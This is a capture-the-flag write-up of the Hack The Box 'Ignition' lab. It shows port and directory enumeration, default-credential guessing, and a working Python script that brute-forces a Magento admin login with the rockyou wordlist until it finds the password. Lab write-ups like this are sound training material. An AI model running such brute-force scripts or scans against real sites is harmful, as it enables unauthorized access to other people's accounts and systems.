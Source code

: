 ```yaml
---
layout: post
title: ignition
categories: htb
tags:
- htb
- starting_point
- ignition
author: nicoliboli
description: starting point | tier 1 | box 5
---
```


# enumeration

```
$ nmap 10.129.1.27       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 16:56 EDT
Nmap scan report for 10.129.1.27
Host is up (0.096s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds

$ nmap -p- --min-rate 1000 10.129.1.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 16:57 EDT
Warning: 10.129.1.27 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.1.27
Host is up (0.10s latency).
Not shown: 65467 closed tcp ports (conn-refused), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 82.93 seconds

$ nmap -sC -sV -p 80 10.129.1.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 16:57 EDT
Nmap scan report for 10.129.1.27
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://ignition.htb/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.08 seconds
```

with the redirect, update `/etc/hosts` to include that domain

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.1.27     ignition.htb
```

## port 80

navigate to the page and notice that it is powered by magento. there is also a sign in and a create an account option

![ignition_home](/assets/img/ignition_home.png)

let `gobuster` run and see a couple subdirectories

```
$ gobuster dir -u http://ignition.htb -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ignition.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/0                    (Status: 200) [Size: 25803]
/admin                (Status: 200) [Size: 7095]
/catalog              (Status: 302) [Size: 0] [--> http://ignition.htb/]
/checkout             (Status: 302) [Size: 0] [--> http://ignition.htb/checkout/cart/]
/cms                  (Status: 200) [Size: 25817]
/contact              (Status: 200) [Size: 28673]
/enable-cookies       (Status: 200) [Size: 27176]
/errors               (Status: 301) [Size: 185] [--> http://ignition.htb/errors/]
/home                 (Status: 200) [Size: 25802]
/Home                 (Status: 301) [Size: 0] [--> http://ignition.htb/home]
/index.php            (Status: 200) [Size: 25815]
/media                (Status: 301) [Size: 185] [--> http://ignition.htb/media/]
/opt                  (Status: 301) [Size: 185] [--> http://ignition.htb/opt/]
/rest                 (Status: 400) [Size: 52]
/robots.txt           (Status: 200) [Size: 1]
/robots               (Status: 200) [Size: 1]
/setup                (Status: 301) [Size: 185] [--> http://ignition.htb/setup/]
/soap                 (Status: 200) [Size: 391]
/static               (Status: 301) [Size: 185] [--> http://ignition.htb/static/]
/wishlist             (Status: 302) [Size: 0] [--> http://ignition.htb/customer/account/login/referer/aHR0cDovL2lnbml0aW9uLmh0Yi93aXNobGlzdA%2C%2C/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

the `admin` directory looks juicy, so go there

![ignition_admin](/assets/img/ignition_admin.png)

tried entering default creds of `admin:123123` found [here](https://magento.stackexchange.com/questions/231135/what-is-the-default-magento-admin-username-and-password) and get an error. also tried `admin:admin`

![ignition_default_creds](/assets/img/ignition_default_creds.png)

# exploitation

i tried hydra, but got a hit on multiple passwords. instead i'm just going to throw together a quick python script instead. first i have to see what the login request looks like in burp with the creds `admin:password`

![ignition_burp_login](/assets/img/ignition_burp_login.png)

i'm going to go ahead and compare my python generated request before trying to brute force. i'm also going to pull out some headers and make sure to include those, as well as the POST data. then i'm going look for a string to match an incorrect login to see if the password is found.

![ignition_burp_compare](/assets/img/ignition_burp_compare.png)

those look pretty similar. i skimmed the request and response just to be sure that the length wasn't giving me false hope. below is the script i used (it's super slow, i know... one of these days i'll sit down and do a proper template with threads, but not today)

```
$ cat req.py    
import sys
import requests
import argparse
from random import randrange
from bs4 import BeautifulSoup

proxy = { "http" : "http://127.0.0.1:8080" }

parser = argparse.ArgumentParser(epilog="ex: python {} -u http://ignition.htb/admin -U admin".format(sys.argv[0]))

parser.add_argument('-u', '--url', required=True, help='url')
parser.add_argument('-U', '--username', required=True, help='username')
args = parser.parse_args()

passwords = []
with open("/usr/share/wordlists/rockyou.txt", "rb") as f:
    passwords = f.readlines()

for password in passwords:
    data = { "form_key" :"YS6Op9hJZsMyNfKr",
            "login[username]" : args.username,
            "login[password]" : password.decode().strip() }

    print("[*] sending login for {}:{}".format(args.username, password.decode().strip()))

    headers = { "Origin" : "http://ignition.htb/admin",
               "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
               "Cookie" : "admin=2ip3uu6cis7s4r4r9fav55a3bu; form_key=4P3NXGkQgkgpDKDh" }

    r = requests.post("{}".format(args.url), data=data, proxies=proxy, headers=headers)
    if r.text.find("incorrect") == -1:
        print("[*] PASSWORD FOUND!")
        print("[+] {} : {}".format(args.username, password.decode().strip()))
        break

$ python3 req.py -u http://ignition.htb/admin -U admin
[*] sending login for admin:123456
...
[*] sending login for admin:qwerty123

[*] PASSWORD FOUND!
[+] admin : qwerty123
```

login with the credentials `admin:qwerty123`

![ignition_dashboard](/assets/img/ignition_dashboard.png)
